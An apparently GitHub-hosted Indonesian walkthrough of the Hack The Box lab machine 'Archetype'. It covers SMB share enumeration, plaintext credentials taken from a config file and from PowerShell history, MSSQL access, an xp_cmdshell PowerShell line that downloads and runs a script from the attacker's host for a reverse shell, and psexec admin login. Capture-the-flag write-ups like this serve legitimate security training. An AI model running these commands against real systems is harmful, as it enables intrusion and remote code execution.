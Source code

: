 # Archetype HTB

Pertama kita menjalankan nmap 

```sh
nmap -A -T4 -p- -oN nmap 10.10.10.27
```

sudah mendapatkan port untuk smbnya yaitu pada port 445 yang merupakan port untuk `smb`. 
Dengan command smbmap : 

```s
smbmap -H 10.10.10.27 -u " " -p " "
```

Didapatkan hasil

```
Disk                                                    Permissions     Comment
----                                                    -----------     -------
ADMIN$                                                  NO ACCESS       Remote Admin
backups                                                 READ ONLY
C$                                                      NO ACCESS       Default share
IPC$                                                    READ ONLY       Remote IPC

```

Kita ketahui disini kita punya /backups dan juga IPC$ yang memiliki permissions read. IPC digunakan untuk koneksi antar prosesnya sedangkan backups sebagai sebuah direktori pada smb servicenya. Kita bisa melihat file yang terdapat dalam smb ini dengan command smbclient.

```s
smbclient //10.10.10.27/backups
```

Dan didalamnya terdapat file `prod.dtsConfig`. Dengan command `get prod.dtsConfig` kita bisa mendownload file tersebut. Dalam OS kita dan bisa dilihat isinya dengan gampang. isi dari prod.dtsConfig adalah : 

```xml
DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration>
```

Dimana kita mendapatkan beberapa poin penting yaitu user id `ARCHETYPE\sql_svc` dan password `M3g4c0rp123` untuk terkoneksi dengan sql service mereka kita mengggunakan command : 

```shell 
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py -windows-auth ARCHETYPE/sql_svc:M3g4c0rp123@10.10.10.27 
```

Untuk mendapatkan reverse shell kita perlu mengetahui ip publik kita dengan command `ifconfig` dan ip publik berada pada tun1

```
tun1: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.14.7  netmask 255.255.254.0  destination 10.10.14.7
        inet6 dead:beef:2::1005  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::3ace:a795:db7f:3c4d  prefixlen 64  scopeid 0x20<link>
        unspec 00-00-00-00-00-00-00-00-00-00-00-00-00-00-00-00  txqueuelen 500  (UNSPEC)
        RX packets 83489  bytes 3443464 (3.2 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 84245  bytes 5087974 (4.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```

Dengan command dibawah ini kita bisa mendapatkan reverse shell dari service kita.

```
xp_cmdshell "powershell IEX (New-Object System.Net.WebClient).DownloadString(\"http://10.10.14.7:8000/re.ps1\");"

```

setelahnya flag berada pada `C:\users\sql_svc\Desktop\user.txt`. Setelah mendapat flag user kita coba membuka bash history pada powershell windows pada direktori `C:\users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`. isi dari historynya : 


```shell
net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
exit
```

coba terhubung dengan windows menggunakan semacam 'ssh' namun pada windows kita menggunakan tools psexec.py dengan command : 

```s
python3 /home/kali/.local/bin/psexec.py administrator@10.10.10.27
```

Dannn didapatkan root.txt pada `/Administrator/Desktop` 


## Done!